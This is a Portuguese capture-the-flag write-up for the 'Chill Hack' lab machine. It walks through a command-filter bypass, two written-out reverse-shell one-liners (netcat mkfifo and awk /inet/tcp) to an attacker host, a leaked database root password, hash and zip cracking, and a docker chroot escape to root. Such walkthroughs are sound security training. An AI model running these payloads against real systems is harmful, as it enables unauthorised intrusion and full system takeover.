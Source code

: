 # _**Chill Hack CTF**_
![](chill.jpg)

## _**Enumeração**_
Primeiro, começamos com um scan Nmap
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```  
![](scan_nmap.jpg)  

Vamos, primeiro, realizar login no serviço _ftp_ e verificar _note.txt_  

![](note_txt.jpg)  

Estranho, não me diz muita coisa
Vamos continuar com um scan Gobuster para verificar diretórios escondidos
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Disocvery/Web-content/common.txt
> ```  
![](scan_gobuster.jpg)  

Temos alguns diretórios que podemos explorar
Vamos começar com o que chama mais a atenção, <mark>/secret</mark>  

![](command.jpg)  

Execução de comandos
Vamos tentar alguns  

![](id.jpg)  

Vamos verificar se ele <mark>executa/possui python</mark>  

![](python.jpg)  

É, parece que não
Vamos com ```sudo -l```  

![](sudo.jpg)  

Temos um script que pode ser executado por nós sem requisição de senha!  
Vamos tentar com o comando abaixo
> ```bash
> sudo -u apaar /home/apaar/.helpline.sh
> ```  
![](helpline.jpg)  

Parece que sim. Vamos tentar algo a mais  
Após muitas tentativas, foi descoberto que o comando ```echo *``` pode ser executado e é executado antes de <mark>/home/apaar/.helpline.sh</mark>  

![](echo.jpg)  

Mas acaba por não ser tão útil  
Tentamos também ```find```, funciona normalmente, mas não podemos fazer muito  
Outro comando é ```wget```  
Criamos um script ```.sh``` para tentarmos obtermos um _shell reverso_  
Realizamos upload via _http server_ com python  
Damos permissão de execução  
Mas ainda assim, não pode ser executado  

Outros comandos como ```ls, cat, sh``` e python não são executados  
Um script está rodando no background impedindo a consulta destas palavras, quase que como um firewall  
Ainda assim, alguns comandos passam  
Outra tentativa foi com ```awk```, poderíamos tentar algo  
No fim, acabei por desistir e fui procurar a solução para essa parte na Internet, e temos duas muito boas!  

## _**Ganhando acesso**_

A primeira envolve o uso de (\) para realizar um _bypass_ do filtro  
E a segunda envolve uma longa string de comandos com ```awk```  
Irei mostrar como realizar ambas abaixo  

<mark>A primeira:</mark>
Testando ```l\s -la```, conseguimos burlar o filtro
Buscando como podemos criar um shell reverso a partir disto, temos o seguinte trecho de código
> ```bash
> r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f
> ```
![](bypass1.jpg)

Isso claro, requer a troca do endereço IP e a porta, além de termos o netcat na nossa máquina atacante

<mark>A segunda</mark>  
Como o comando ```awk``` é executado, podemos criar um pequeno script para ser executado antes e dentro de BEGIN, junto de ```awk```  
Basta apenas configurar o endereço IP e a porta da máquina  
E claro, neste também precisamos do ```netcat```  
> ```bash
> awk 'BEGIN {s = "/inet/tcp/0/<machine_ip>/<port>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null  
> ```
![](bypass2.jpg)  

Vamos continuar  
Após obter esse shell reverso, precisamos estabilizar ele  
Verificando, temos a versão do python e podemos usar o comando abaixo para isso
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> ```

Ou alternativamente, temos também ```/dev/null```  
Voltando ao nosso arquivo lá do início, <mark>/home/apaar/.helpline.sh</mark>, vamos executar ele novamente e digitar ```/bin/sh``` nas duas vezes  
Verificando o id, temos agora que somos <mark>apaar</mark>  

![](apaar.jpg)  

Aquele arquivo, <mark>local.txt</mark> é um arquivo muito específico  
Verificando com ```cat``` (agora podemos usar), temos nossa primeira flag, a _flag de usuário_

Vamos continuar  
Primeiro, podemos melhorar a _shell_  
Vamos criar uma _chave ssh_ com o comando 
> ```bash
> ssh-keygen -t rsa -f apaar
> ```  
![](ssh_keygen.jpg)  

Copiando o conteúdo de _apaar.pub_ para _authorized_keys_ na nossa máquina-alvo  

![](keygen_copy.jpg)  

Na nossa máquina atacante, alteramos as permissões de <mark>apaar</mark> e em seguida, realizamos login via ssh na máquina-alvo
> ```bash
> ssh -i apaar apaar@[ip_address]
> ```  
![](ssh_login.jpg)  

Login feito com sucesso  
Após vasculhar e verificar muitos arquivos, um chamou atenção, especificamente em <mark>/var/www/files</mark>  
Temos _**hacker.php**_, _**index.php**_, _**account.php**_  
Verificando cada um, vemos algo de interessante  

![](php.jpg)  

Uma senha de login _root_ para um banco de dados  
Mas a questão é, onde fica esse banco de dados  
No scan nmap não foi apontado nenhum serviço do tipo SQL  
Perguntando ao GPT, temos alguns comandos que podemos usar na máquina-alvo para verificar se existe um serviço SQL ativo, já que tudo indica como _localhost_  

![](sql.jpg)  

Parece que temos algo na porta 3306, típica porta utilizada para serviços MySQL  
Vamos realizar login
> ```bash
> mysql -h localhost -u root -p'!@m+her00+@db' webportal
> ```  
![](login_sql.jpg)  

Vasculhando o banco de dados, temos o seguinte  

![](database.jpg)  

Usando crackstation, obtemos as duas senhas  

![](crack.jpg)  

Agora, podemos realizar login como Anurodh ou Apaar  
Tentando via ssh e até mesmo no próprio terminal, nada funcionou  
Voltamos para o início  
Verificando novamente os arquivos que estão em <mark>/var/www/files</mark> para ver se não foi deixado algo para trás  

![](another_php.jpg)  

Não consta nos arquivos que visitamos anteriormente via web  
Para baixar, vamos usar um servidor python como antes  
Primeiro, iniciamos com:
> ```bash
> python3 -m http.server [port]
> ```

Após, um:
> ```bash
> wget http://[ip_address]:[port]/images/hacker-with-laptop_23-2147985341.jpg wget
> ```  
![](image.jpg)  

Vamos usar steghide para tentar extrair seu conteúdo
> ```bash
> steghide extract -sf [image_name].jpg
> ```  
![](steghide.jpg)

Vamos usar agora <mark>John</mark> para quebrar esse zip e ter acesso ao seu conteúdo  

![](zip.jpg)

E temos nosso resultado: <mark>unzip backup.zip</mark>  
Um arquivo de nome _**source_code.php**_  
Verificando seu conteúdo com ```cat```, temos algo interessante  
Uma senha base64. Vamos decodificar  

![](base64.jpg)  

Temos a senha!  
Agora sim, podemos tentar (novamente) realizar login como <mark>anurodh</mark>  

![](su_login.jpg)  

Com sucesso!

## Escalando privilégios e _docker escape_

Um pouco de busca por flags, mas nada foi encontrado
Verificando o _**id**_, vemos que somos parte de um _docker_  

![](docker.jpg)  

Essa parte também fui buscar na Internet, como fazer para escapar de dentro de um docker chegando neste ![link](https://gtfobins.github.io/gtfobins/docker/#shell)  
Vamos executar o comando abaixo para escapar do docker  
> ```bash
> docker run -v /:/mnt --rm -it alpine chroot /mnt sh
> ```  
![](docker_escape.jpg)  

Com sucesso!
Agora, só buscar em _/root_ a nossa flag (e de brinde, um lindo banner)  

![](root_flag.jpg)  

